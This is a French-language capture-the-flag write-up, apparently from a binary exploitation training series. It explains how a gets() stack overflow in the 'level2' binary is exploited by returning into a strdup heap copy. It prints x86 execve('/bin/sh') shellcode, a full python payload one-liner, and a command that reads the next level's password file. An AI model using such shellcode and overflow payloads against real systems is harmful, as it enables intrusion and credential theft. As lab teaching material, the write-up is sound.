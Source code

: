 
# Level2
---
###### Étape 1 : -- Décompiler le programme --

En décompilant le programme avec Dogbolt ou Ghidra, on voit dans le programme deux fonctions. P et Main : 

On voit par la suite que dans la fonction P il y a la fonction __gets__ qui est appelé.

 - on utilisera cette fonction pour overflow le programme.

On voit aussi que le programme check juste apres le __gets__ si la stack à été alterée. 
ce qui nous empèche d'écrire directement sur l'addresse de retour de __gets__.

Plus loin dans le progamme on observe la fonction __strdup__ qui elle n'a pas de vérification de stack.
- on utilisera le retour de cette fonction pour executer un shellcode qui lancera un terminal bash nous permetant d'accéder au prochain level.

###### Étape 2: -- Overflow --

Depuis __GDB__, on cherche où ce situe la limite de la fonction __gets__, ce qui nous permet de calculer un _offset_ qui nous permetra d'overflow la fonction. On obtient un offset de ==80==.

Ensuite nous cherchons l'adresse de retour de la fonction __strdup__ avec la fonction __ltrace__. Obtient l'adresse ==0x0804a008==


shellcode: ==\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80==


###### Étape 3: -- Execution --

Avec offset, le shellcode et l'addresse de retour, on crée un one-liner python pour executer un payload donnant accès à un terminal bash.

Contruction du payload: 
> (python - c 'print "[shellcode]" + "A" * [offset - len(shellcode)] + "[return address]"[::-1]'; cat -) | ./binary

Payload final :
```bash
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat -) |./level2
```

Dans le terminal on execute la commande suivante pour récupérer le password du level3:

```bash
cat /home/user/level3/.pass
```